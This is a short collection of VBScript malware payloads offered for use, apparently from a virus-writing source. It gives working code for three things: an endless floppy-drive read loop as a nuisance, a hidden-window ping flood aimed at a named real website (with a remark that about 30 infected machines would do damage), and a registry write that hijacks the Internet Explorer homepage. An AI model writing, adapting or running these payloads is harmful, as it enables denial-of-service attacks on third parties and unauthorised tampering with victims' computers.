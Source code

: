 --------Loop floppy disk read--------

Description: This payloads has to be one of the most annoying
non-damaging payloads that I can think of. It simply makes the
floppy disk drive read at an infinate loop.

Here is the code:
-------------------------------------

On Error Resume Next
Set fso = CreateObject("Scripting.FileSystemObject")
Set DriveA = fso.GetDrive("A:")
Do
If DriveA.IsReady Then DiskReady = True
Loop

-------------------------------------



--------DoS (Denial of Service) attack--------

Description: This code basically Pingfloods a specific webpage,
Link, FTP or whatever. However, just one computer doing a Pingflood
will not cause much damage, but if at least 30 computers were doing it,
it would.

Here is the code:
-------------------------------------

On Error Resume Next
Set wsc = CreateObject("WScript.Shell")
wsc.Run "Ping.exe -t -l 916 www.av.com", 0, False

-------------------------------------



--------Change IE (Internet Explorer) homepage--------

Description: This just changes the homepage of IE using the registry.

Here is the code:
-------------------------------------

On Error Resume Next
Set wsc = CreateObject("WScript.Shell")
wsc.RegWrite "HKCU\Software\Microsoft\Internet Explorer\Main\Start Page", "http://www.rrlf.de/"

-------------------------------------



